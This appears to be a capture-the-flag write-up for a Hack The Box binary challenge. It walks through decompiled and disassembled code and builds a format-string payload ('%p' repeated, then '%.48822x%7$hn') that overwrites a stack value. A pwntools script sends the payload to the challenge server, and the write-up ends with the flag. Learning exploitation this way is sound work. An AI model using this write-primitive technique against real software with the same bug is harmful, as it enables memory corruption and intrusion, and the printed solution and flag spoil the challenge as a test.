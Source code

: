 The goal is to put the value '0x1337beef' into the register before the checking.
Here is the ghidra code:

```c
undefined8 main(void) {
  long in_FS_OFFSET;
  long local_48;
  long *local_40;
  undefined8 local_38;
  undefined8 local_30;
  undefined8 local_28;
  undefined8 local_20;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  local_48 = 0x1337babe;
  local_40 = &local_48;
  local_38 = 0;
  local_30 = 0;
  local_28 = 0;
  local_20 = 0;
  read(0,&local_38,0x1f);
  printf("\n[!] Checking.. ");
  printf((char *)&local_38);
  if (local_48 == 0x1337beef) {
    delulu();
  }
  else {
    error("ALERT ALERT ALERT ALERT\n");
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

We can see our values inside the stack by using format string exploitation:

```bash
Try to deceive it by changing your ID.

>> AAAAAAAAAAAAAAA%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x

[!] Checking.. AAAAAAAAAAAAAAAa02190d006d714887107fffffff1337babea021b1f041414141
```

I didn't know this vuln much, so i've checked multiple websites, including this one:
https://pwn.college/software-exploitation/format-string-exploits

Here is what i tried:

```
>> %p %p %p %p %p %p %p %p %p 

[!] Checking.. 0x7ffc6a486840 (nil) 0x7f752bf14887 0x10 0x7fffffff 0x1337babe 0x7ffc6a488960 0x7025207025207025 0x2520702520702520 

>> %x %x %x %x %x %x %x %x

[!] Checking.. 34a7fba0 0 bcd14887 10 7fffffff 1337babe 34a81cc0 25207825
```

In the video, the value is a char array so %p is different from %x.
In my case, the value is an hex value, so %p is probably meaningless.

I also tried to select only the 1337babe part, and since this is the 6th value, i can use that:
```
>> %6$x

[!] Checking.. 1337babe
```

Using GDB, `disass main` print this:
```
   0x000000000000144a <+0>:     endbr64
   0x000000000000144e <+4>:     push   rbp
   0x000000000000144f <+5>:     mov    rbp,rsp
   0x0000000000001452 <+8>:     sub    rsp,0x40
   0x0000000000001456 <+12>:    mov    rax,QWORD PTR fs:0x28
   0x000000000000145f <+21>:    mov    QWORD PTR [rbp-0x8],rax
   0x0000000000001463 <+25>:    xor    eax,eax
   0x0000000000001465 <+27>:    mov    QWORD PTR [rbp-0x40],0x1337babe
   0x000000000000146d <+35>:    lea    rax,[rbp-0x40]
   0x0000000000001471 <+39>:    mov    QWORD PTR [rbp-0x38],rax
   0x0000000000001475 <+43>:    mov    QWORD PTR [rbp-0x30],0x0
   0x000000000000147d <+51>:    mov    QWORD PTR [rbp-0x28],0x0
   0x0000000000001485 <+59>:    mov    QWORD PTR [rbp-0x20],0x0
   0x000000000000148d <+67>:    mov    QWORD PTR [rbp-0x18],0x0
   0x0000000000001495 <+75>:    lea    rax,[rbp-0x30]
   0x0000000000001499 <+79>:    mov    edx,0x1f
   0x000000000000149e <+84>:    mov    rsi,rax
   0x00000000000014a1 <+87>:    mov    edi,0x0
   0x00000000000014a6 <+92>:    call   0x1130 <read@plt>
   0x00000000000014ab <+97>:    lea    rax,[rip+0x112a]        # 0x25dc
   0x00000000000014b2 <+104>:   mov    rdi,rax
   0x00000000000014b5 <+107>:   mov    eax,0x0
   0x00000000000014ba <+112>:   call   0x10f0 <printf@plt>
   0x00000000000014bf <+117>:   lea    rax,[rbp-0x30]
   0x00000000000014c3 <+121>:   mov    rdi,rax
   0x00000000000014c6 <+124>:   mov    eax,0x0
   0x00000000000014cb <+129>:   call   0x10f0 <printf@plt>
   0x00000000000014d0 <+134>:   mov    rax,QWORD PTR [rbp-0x40]
   0x00000000000014d4 <+138>:   cmp    rax,0x1337beef
   0x00000000000014da <+144>:   je     0x14ed <main+163>
   0x00000000000014dc <+146>:   lea    rax,[rip+0x110a]        # 0x25ed
   0x00000000000014e3 <+153>:   mov    rdi,rax
   0x00000000000014e6 <+156>:   call   0x1269 <error>
   0x00000000000014eb <+161>:   jmp    0x14f7 <main+173>
   0x00000000000014ed <+163>:   mov    eax,0x0
   0x00000000000014f2 <+168>:   call   0x1332 <delulu>
   0x00000000000014f7 <+173>:   mov    eax,0x0
   0x00000000000014fc <+178>:   mov    rdx,QWORD PTR [rbp-0x8]
   0x0000000000001500 <+182>:   sub    rdx,QWORD PTR fs:0x28
   0x0000000000001509 <+191>:   je     0x1510 <main+198>
   0x000000000000150b <+193>:   call   0x10e0 <__stack_chk_fail@plt>
   0x0000000000001510 <+198>:   leave
   0x0000000000001511 <+199>:   ret
```

We are looking for this test:
`  if (local_48 == 0x1337beef) {`
We can see these lines
```
0x00000000000014d0 <+134>:   mov    rax,QWORD PTR [rbp-0x40]
0x00000000000014d4 <+138>:   cmp    rax,0x1337beef
```
What we see here is that rbp-0x40 points to out value that's compared to 0x1337beef.


In all the examples i see, the targeted value has to be outside main function.


Since the program stores the pointer on local_40 after (called local 38 in the Ghidra file), we can do this kind of payload:
```
%p%p%p%p%p%p%hn%p

[!] Checking.. 0x7fffffffbb30(nil)0x7ffff7d148870x100x7fffffff0x1337babe

Breakpoint 2, 0x00005555555554d4 in main ()
*RAX  0x13370039
```

Our format string will look like this:
`%p%p%p%p%p%p%hn%p` --> `0x... 0x... [... 6 pointers] %hn 1337beef variable` !


If i add a space before:
```
 %p%p%p%p%p%p%hn%p

[!] Checking..  0x7fffffffbb30(nil)0x7ffff7d148870x100x7fffffff0x1337babe0x2570257025702520

*RAX  0x1337003a
```

Our format string will look like this:
`[SPACE]%p%p%p%p%p%p%hn%p` --> `[SPACE]0x... 0x... [... 6 pointers] %n 1337beef variable` !

Since length before %n is 1 byte longer, that increases written value to RAX !


Now we just need to use the following payload :
```
%p%p%p%p%p%p%.48822x%7$hn
```
%p 6 times: Get values out of the stack to align with our target address
%.48822x: print 0 48822 times (equivalent of BEEF minus len of our 6 addresses)
%7$hn: Write to the 7th value extracted the len of previous printed elements (BEEF in hex)


The code:
```python
from pwn import *

LOCAL_FILE_PATH: str = "./delulu"
REMOTE_SERVER = "83.136.252.62"
REMOTE_PORT = 30929

def pwn_open_door(proc):
    proc.recvuntil(b">> ")
    #payload = b"%x "*6 + b"%n" + b"%p"
    payload = b"%p"*6 + b"%.48822x%7$hn"
    proc.sendline(payload)
    print(b"trying payload", payload)
    res = proc.recvall(timeout=2)
    print(bytes.decode(res))

def run_remote():
    conn = remote(REMOTE_SERVER, REMOTE_PORT)
    pwn_open_door(conn)

def run_bin_local(process_path: str):
    proc = process([process_path])
    pwn_open_door(proc)

def main():
    #run_bin_local(LOCAL_FILE_PATH)
    run_remote()

if __name__ == '__main__':
    main()
```

And we get the flag:
`HTB{m45t3r_0f_d3c3pt10n}`

